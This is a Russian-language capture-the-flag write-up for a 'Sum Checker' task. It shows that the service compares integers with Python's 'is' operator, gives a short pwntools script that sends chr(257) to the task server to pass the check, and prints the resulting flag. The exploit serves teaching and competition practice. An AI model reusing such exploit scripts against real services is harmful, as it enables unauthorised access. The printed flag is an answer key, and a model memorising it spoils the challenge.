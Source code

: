 # Sum Checker
_Похоже, разработчик этого сервиса полагается на коммутативность для обеспечения безопасности..._

_nc sum-checker.tasks.2021.ctf.cs.msu.ru 20002_

[checker.py](checker.py)

### Solution
В файле checker.py наблюдаем сравнение пользовательского ввода (после преобразований) оператором is, чтобы получить флаг, нам нужно выполнение следующего условия:
```python
sum([ord(i) for i in our_input]) % 260 is sum([ord(i) for i in our_input[::-1]]) % 260 == False
```

Оператор is используют, чтобы удостовериться, что переменные указывают на один и тот же объект в памяти. Python указывает на один и тот же объект, если его значение не превышает один байт (2**8).
Таким образом, нам остаётся написать скрипт, который отправляет символ с кодом ∈ \[257-259].

[pwn1.py](pwn1.py)
```python
import pwn

c = pwn.connect('sum-checker.tasks.2021.ctf.cs.msu.ru', 20002)
c.recvuntil(':')
c.sendline(bytes(chr(257).encode()))
flag = c.recvuntil('}').decode()
print(flag)
```


`
Flag: MSKCTF{pr3d3f1n3d_c0n$t4nt$_pai8eege2a}
`
